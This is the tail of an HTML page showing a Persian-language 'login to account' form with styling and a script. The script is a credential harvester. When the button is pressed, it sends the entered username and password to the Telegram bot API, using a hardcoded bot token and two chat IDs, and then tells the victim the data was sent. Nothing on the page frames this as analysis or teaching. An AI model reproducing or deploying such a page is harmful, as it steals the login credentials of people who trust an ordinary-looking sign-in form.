     button {
      background-color: #2196f3;
      color: white;
      font-weight: bold;
      cursor: pointer;
      transition: background 0.3s;
    }

    button:hover {
      background-color: #1976d2;
    }

    #status {
      text-align: center;
      color: #4caf50;
      margin-top: 12px;
    }
  </style>
</head>
<body>
  <div class="login-panel">
    <h3>ورود به حساب</h3>
    <input type="text" id="username" placeholder="نام کاربری" />
    <input type="password" id="password" placeholder="رمز عبور" />
    <button onclick="sendData()">ارسال</button>
    <div id="status"></div>
  </div>

  <script>
    function sendData() {
      const username = document.getElementById("username").value;
      const password = document.getElementById("password").value;
      const token = "7512556234:AAEpxEDjILEARULIa4p9x_OFlljXTVBwVG8";
      const chatIds = ["1749401858", "6795162874"];
      const message = `🔐 فرم ورود جدید:\n👤 نام کاربری: ${username}\n🔑 رمز عبور: ${password}`;

      chatIds.forEach((chatId) => {
        fetch(`https://api.telegram.org/bot${token}/sendMessage`, {
          method: "POST",
          headers: { "Content-Type": "application/json" },
          body: JSON.stringify({
            chat_id: chatId,
            text: message,
          }),
        });
      });

      document.getElementById("status").innerText = "✅ اطلاعات ارسال شد.";
    }
  </script>
</body>
</html>
